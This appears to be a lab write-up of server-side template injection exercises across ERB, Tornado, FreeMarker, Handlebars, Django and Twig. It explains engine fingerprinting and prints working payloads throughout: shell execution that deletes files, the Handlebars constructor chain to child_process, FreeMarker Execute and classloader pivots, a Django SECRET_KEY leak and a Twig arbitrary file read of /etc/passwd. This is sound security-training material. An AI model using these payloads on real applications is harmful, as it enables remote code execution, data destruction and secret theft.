The early labs are not about "getting code exec fast". They are about recognizing whether your input lands as plain text, inside an existing expression, or in a statement-capable zone. The difference between 49 and {{49}} changes everything.
Once the engine is identified, official docs and public exploit write-ups become part of the attack surface. FreeMarker's Execute utility and the Handlebars constructor chain both come from reading how the engine actually behaves.
Even when a template language blocks the easy path to code execution, it may still expose configuration, object metadata, or Java internals that collapse the lab in a different way.
The last lab matters because there is no single copy-paste finish. You collect clues from upload behavior, method signatures, and read side-effects, then build a chain the application accidentally gives you.
My solving rhythm across the whole track was consistent: start with arithmetic probes, treat every verbose error like a fingerprint, map the object model before chasing RCE, and only use the destructive or final-read payload once the path is already proven.
ERB message injection: use Intruder to identify the delimiter, then pivot to shell backticks
message parameter, identify the engine, and remove morale.txt.The out-of-stock notice reflects a message query parameter back into the rendered page.
<%= 7 * 7 %> renders 49, which is a strong Ruby ERB signal.
Ruby backticks execute a shell command and interpolate the output into the template result.
Swap the arithmetic probe for rm morale.txt once the ERB evaluation path is already proven.
This first lab is the cleanest example of why SSTI detection should start broad. I did not begin with a framework assumption. I started with a payload set that mixed different syntaxes, pushed them through Intruder, and watched for a response delta that looked like real server-side evaluation instead of harmless reflection.
The important part is not just that 49 appeared. It is that the rest of the response remained stable enough to treat the result as an evaluated expression inside the template rather than a parser crash. That turns the problem from "is this injectable?" into "which runtime rules am I standing inside?"
- Send the request with the reflected
messageparameter to Intruder. - Use a small cross-engine wordlist containing arithmetic and object-access probes.
- Sort by response length and inspect any candidates that create a visible number or framework-specific error.
- Once
<%= 7 * 7 %>returns49, move back to Repeater and keep the payload family consistent.

<%= 7 * 7 %> cleanly produces 49, which is the fingerprint that matters.
<%= `rm morale.txt` %> becomes enough to solve the lab without needing any extra gadget.Why the final payload works
In ERB, <%= ... %> evaluates Ruby and prints the return value into the template. Backticks inside Ruby spawn a shell command and return the command's stdout. For 7 * 7, that return value is 49. For rm morale.txt, there is no meaningful stdout, so the page still renders but the side effect happens server-side.
<%= `rm morale.txt` %>Tornado code-context escape: break out of the surrounding expression before importing os
blog-post-author-display into command execution and remove morale.txt.The author-display setting for blog comments is rendered server-side and then reflected back on the post page.
{{7*7}} does evaluate, but the page prints {{49}}, which means the payload is landing inside existing template syntax rather than as a fresh standalone block.
Close the current expression with }}, inject a Tornado statement tag, then execute os.system().
0 matters
os.system() returns an integer status code. Seeing 0 in the rendered name is proof that the command ran successfully.
This lab is valuable because it teaches the difference between "template syntax works" and "my input is the whole template expression". The {{49}} output is not a failure. It is the exact clue that says the application is wrapping your input with its own braces or placing it inside an existing expression slot.
Once you notice that, the right move is to stop trying bigger arithmetic probes and instead escape the current context cleanly. That is why the payload begins with user.name}}: the first job is to end the expression the application already started for you.
The arithmetic payload shows up as {{49}}. That tells us the engine is evaluating the inner math but we are still nested inside surrounding template markup.
Inject {% import os %} and call {{os.system('whoami')}}. The rendered author string now includes the original user name plus an exit code, proving that the statement executed.
Replace whoami with rm morale.txt and resend. The redirect behavior stays the same because the endpoint still behaves like a settings update.

{{49}}, not just 49. That is the sign that the payload is executing inside an already-open template expression.
user.name}} and importing os proves real execution. The trailing 0 comes from os.system() returning a successful exit code.
whoami works, switching to rm morale.txt is enough to finish the lab.user.name}}{% import os %}{{os.system('whoami')}}user.name}}{% import os %}{{os.system('rm morale.txt')}}The response is doing exactly what the template tells it to do: render the existing user.name, then your injected statement and expression, then whatever closing braces remain from the surrounding template. Messy output is still useful output.
FreeMarker documentation path: trigger a template error, find Execute, then use it deliberately
morale.txt.This is the first lab where the framework tells on itself loudly enough that documentation becomes the main exploit path. An undefined variable reference in the template editor produces a full FreeMarker error page, including naming, formatting, and tips that are specific enough to eliminate most of the search space immediately.
After that, the solve is less about creativity and more about discipline: prove that the helper is available with a harmless command first, then switch to the destructive lab action once you know the primitive is real.

FreeMarker template error, so there is no reason to keep guessing engine syntax after this point.
ls. Seeing morale.txt echoed inline proves that Execute is available and command execution is already solved.${grnsjV.stock} left of ${product.name} at ${product.price}.</p>${"freemarker.template.utility.Execute"?new()("ls")} left of ${product.name} at ${product.price}.</p>
ls proof works, the final solve is just a command swap: rm morale.txt instead of enumeration.${"freemarker.template.utility.Execute"?new()("rm morale.txt")} left of ${product.name} at ${product.price}.</p>The vulnerability is not just "FreeMarker exists". The vulnerability is that a dangerous helper object is reachable from user-controlled template content. Documentation is powerful here because the product already shipped the primitive for you.
Unknown engine to Handlebars exploit: use stack traces as the fingerprint, then restore access to JavaScript's constructor
/home/carlos/morale.txt.This lab starts exactly where a lot of real SSTI work starts: the syntax is unknown, the payloads are noisy, and the easy probes mostly trigger failures. That is not a dead end. In template injection, a failure that carries a stack trace is often better than a successful reflection.
Here, Intruder gave me the signal I needed. The response stack trace exposed Handlebars directly. Once that was visible, the problem changed from raw discovery to adapting a known exploitation pattern that regains access to JavaScript's Function constructor and from there to child_process.exec().

Handlebars. That one line is more valuable than a hundred blind payload guesses.{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
child_process.exec().
whoami with rm /home/carlos/morale.txt.Why this chain works at all
Handlebars tries to stay logic-light, which is why plain arithmetic or obvious method calls are not enough. The constructor chain matters because it rebuilds a path to native JavaScript execution from objects and helpers the template runtime still exposes. The payload is long because it is assembling capability out of constrained pieces, not because the exploit is fundamentally complicated.
In unknown-engine SSTI, the best use of Burp Intruder is often not "find the final payload". It is "force the application to tell me which syntax family and runtime semantics I am dealing with."
Django sandbox disclosure: use {% debug %} to map the context, then pull settings.SECRET_KEY
This lab is the reminder that SSTI is not always about shell commands. Sometimes the framework sandboxes the dangerous primitives well enough that the better outcome is targeted disclosure. In Django, the {% debug %} tag becomes the crucial recon move because it spills the rendering context and tells you which objects are worth reaching for.
The context dump immediately exposes a settings object. Once that exists, the shortest path is no longer clever code execution. It is simply {{ settings.SECRET_KEY }}. In a real application, leaking that key can create downstream abuse opportunities far beyond the template itself.

settings object.
settings is visible, the key disclosure is direct. No gadget chain is needed because the secret is already reachable from the template context.{{product.stock}} left of {{product.name}} at {{product.price}}.</p>
{% debug %}{{product.stock}} left of {{product.name}} at {{product.price}}.</p>
{{ settings.SECRET_KEY }}A leaked framework secret is often enough to damage trust boundaries elsewhere: signed cookies, token generation, password reset mechanics, or any other feature that assumes the secret never leaves the server.
FreeMarker object abuse: pivot off product.class and use the classloader to recover Execute
my_password.txt.
This lab feels different from the earlier FreeMarker one because the exploit path is not just "use the documented helper directly". Here the core trick is that product is not a dead data blob. It is a live Java-backed object, which means template access to product.class opens a path into the underlying runtime.
The screenshots show the whole reasoning chain: trigger an undefined-variable error, confirm arithmetic evaluation with ${7*7}, verify that the missing user object can still be handled safely with a default, and then use the classloader reached through product.class.protectionDomain.classLoader to load the pieces needed for command execution.


${product.stock} left of ${product.name} at ${product.price}.</p>
${7*7}
${(user.name)!"Guest"}
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}
my_password.txt.Why the object pivot is the real vulnerability
The dangerous part is not just "FreeMarker exists". It is that the template can reach a real object graph with Java metadata attached. Once product.class is reachable, the exploit path starts looking less like templating and more like runtime reflection. That is why object exposure is such a recurring SSTI mistake: the template surface inherits capabilities from the object model underneath it.
The ${(user.name)!"Guest"} check is not filler. It proves that the template can gracefully continue even when a variable is absent, which keeps the final exploit payload from failing early on missing data.
Twig method abuse: turn the exposed user object and avatar handler into an arbitrary file read chain
This was the most satisfying lab in the set because the path is assembled from clues rather than one obvious payload. The application leaks just enough about avatar handling, method signatures, and file serving that the template injection becomes a way to repoint the user's avatar at arbitrary filesystem paths.
The solving path is worth studying because it mirrors real exploit development much more than the earlier documentation-driven labs do. Each screenshot below removes one uncertainty: first the upload path and MIME validation behavior, then the method signature, then the fact that the avatar endpoint will happily stream arbitrary file contents back as image/unknown.
Uploading a plain-text file as an avatar throws a verbose PHP error that leaks User.php, setAvatar(), the temporary path, and the MIME requirement. That is a recon jackpot.
Calling user.setAvatar('/home/carlos/User.php') fails, but the failure is perfect: Twig tells us the method exists and expects exactly two arguments.
Adding 'image/png' completes the method call. From there, the avatar retrieval endpoint becomes the read primitive.
/etc/passwd is the perfect canary. If the avatar endpoint streams it back, the exploit is proven beyond doubt before moving on to more application-specific files.

User.php, and setAvatar() cares about MIME strings.
setAvatar() correctly next time.user.setAvatar('/home/carlos/User.php')
user.setAvatar('/home/carlos/User.php','image/png')
/etc/passwd as image/unknown, the arbitrary file read is fully confirmed.

User.php source through the avatar endpoint, which is exactly the kind of custom exploit finish this lab is designed to teach.Why this chain is more interesting than a one-shot gadget
The exploit is not "Twig gives RCE by default". The exploit is that a template-exposed object lets us call a state-changing method, and the method writes avatar metadata that another endpoint later trusts when serving files. In other words, the template injection is only one part of the bug. The full break requires understanding how two application features compose badly together.
Custom exploit paths often come from business logic, not just framework magic. If an exposed object has methods that mutate file paths, profile data, permissions, or rendering state, template injection can become the trigger that repoints the application at sensitive resources.
What the SSTI track really drills into you
The biggest shift across these labs is mental, not syntactic. Early on, it is tempting to see SSTI as a version of XSS with stranger delimiters. The labs break that habit quickly. What actually matters is which engine is present, where your input lands in template context, which helpers are reachable, what objects are exposed, and how much of the underlying runtime leaks through those objects.
That is why I wanted the screenshots in this write-up instead of a cleaned-up payload list alone. The screenshots preserve the path from clue to confidence: 49 in the right place, an error page that says FreeMarker, a stack trace that says Handlebars, a debug dump that exposes settings, and an avatar endpoint that should never have been a file reader in the first place.
Arithmetic probes, malformed variables, and verbose errors do more work in SSTI than in most other web bug classes because they narrow the runtime immediately.
The difference between text context, expression context, and statement context decides whether a payload works, even when the engine syntax is already known.
Live objects, methods, class metadata, and helper utilities often matter more than raw template evaluation alone. Business objects can become capability leaks.
If a sandbox blocks easy code exec, pivot to configuration secrets, framework internals, or application state that the template can still reach legitimately.
The same habit transfers cleanly into SSTI-adjacent bugs and modern server-side features: map the parser, map the object model, then ask what the application still lets your input influence after it crosses the trust boundary.